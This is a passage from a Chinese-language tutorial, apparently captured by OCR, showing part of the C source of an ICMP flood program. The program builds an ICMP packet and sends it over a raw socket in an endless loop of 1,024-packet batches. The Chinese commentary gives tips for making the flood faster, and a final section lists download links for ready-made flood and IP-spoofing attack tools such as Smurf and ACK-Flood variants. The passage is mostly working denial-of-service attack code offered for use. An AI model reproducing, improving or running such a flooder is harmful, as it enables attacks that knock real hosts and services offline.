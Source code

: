```
   icmp_header.i_cksum = 0; //校验和置0
   icmp_header.i_id = 2;
   icmp_header.timestamp = GetTickCount(); //时间戳
   icmp_header.i_seq=999;
   memcpy(SendBuf, &icmp_header, sizeof(icmp_header)); //组合ICMP报文和头部
   memset(SendBuf+sizeof(icmp_header), 'E', PacketSize); //用E填充ICMP数据
   icmp_header.i_cksum = checksum((USHORT *)SendBuf, sizeof(icmp_header)+PacketSize); //计算校验和

   datasize=sizeof(icmp_header)+PacketSize; //计算整个数据包大小
//开始发送
while(1){ //无限循环，按Ctrl+C跳出
```
这里的printf实际上是为了延时，Flood程序最好别用这么华丽的界面或字符提示来美化自己，这样会迅速拖慢程序效率！当然，如果能不显示最好，但 我去掉printf后，程序死掉了（太快？）如果你觉得“Sending 1024 packets...”还是大大增加了延时，可以改成printf("."); 一个小点。反正是自己用，用得顺手就可以。
```
printf("Sending 1024 packets...\n");
    for(counter=0;counter<1024;counter++){ //循环发送1024个数据包为一组
//发送ICMP报文
      ErrorCode=sendto(SockRaw,SendBuf,datasize,0,(struct sockaddr*)&DestAddr,sizeof(DestAddr));
      if (ErrorCode==SOCKET_ERROR) printf("\nSend Error:%d\n",GetLastError());
    }
}
}

   {
    if (SockRaw != INVALID_SOCKET) closesocket(SockRaw);
    WSACleanup();
   }
return 0;
}
```

# 九、几个ICMP Flood工具
###AnGryPing（上面代码的的完成品，直接Flood） 下载地址：http://www.heibai.net/download/show.php?id=3002
###R-Series（包括ACK-Flood、Smurf、Chargen） 下载地址：http://www.heibai.net/download/show.php?id=2970
###pingflood（伪造IP的Flood，号称支持Win98/Me？没测试过，理论上不可信） 下载地址：http://www.hacker.com.cn/down/soft.asp?id=127
###FakePing（伪造IP的Flood） 下载地址：http://www.hacker.com.cn/down/soft.asp?id=41

